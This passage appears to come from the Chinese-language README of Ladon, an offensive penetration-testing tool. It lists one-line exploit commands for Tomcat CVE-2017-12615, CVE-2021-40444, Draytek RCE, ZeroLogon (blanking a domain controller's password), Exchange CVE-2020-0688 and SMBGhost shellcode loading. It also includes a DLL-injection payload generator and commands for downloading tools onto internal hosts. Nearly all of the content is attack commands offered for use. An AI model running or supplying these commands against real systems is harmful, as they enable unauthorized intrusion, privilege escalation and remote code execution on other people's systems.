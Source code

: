 ##### 064 Tomcat漏洞利用(CVE-2017-12615)
```Bash
Ladon 192.168.1.8/24 TomcatExp
```

##### 065 Windows 0day漏洞通用DLL注入执行CMD生成器(DLL仅5KB)
```Bash
Ladon CmdDll x86 calc
Ladon CmdDll x64 calc
Ladon CmdDll b64x86 YwBhAGwAYwA=<br>
Ladon CmdDll b64x64 YwBhAGwAYwA=
```

##### 066 CVE-2021-40444  微软IE/Office 0day漏洞
```Bash
Ladon CVE-2021-40444 MakeCab poc.dll<br>
Ladon CVE-2021-40444 MakeHtml http://192.168.1.8
```

##### 067 DraytekExp CVE-2020-8515远程执行命令EXP
```Bash
Ladon DraytekExp http://192.168.1.8  whoami
```

##### 068 域渗透 ZeroLogon CVE-2020-1472域控提权(密码置空)
```Bash
Ladon ZeroLogon dc.k8gege.org
```

##### 069 CVE-2020-0688 Exchange序列化漏洞(.net 4.0)
```Bash
Ladon cve-2020-0688 192.168.1.142 Administrator K8gege520
```

##### 070 ForExec循环漏洞利用(Win10永恒之黑CVE-2020-0796,成功退出以免目标蓝屏)
```Bash
Ladon ForExec "CVE-2020-0796-Exp -i 192.168.1.8 -p 445 -e --load-shellcode test.txt" 80 "Exploit finnished"
```

### 文件下载、文件传输

##### 071 内网文件传输 HTTP下载 HTTPS下载 MSF下载
```Bash
Ladon wget https://downloads.metasploit.com/data/releases/metasploit-latest-windows-x64-installer.exe<br>
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar
```

##### 072 内网文件传输 Ftp下载 	
```Bash
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe
```

### 加密解密(HEX/Base64)
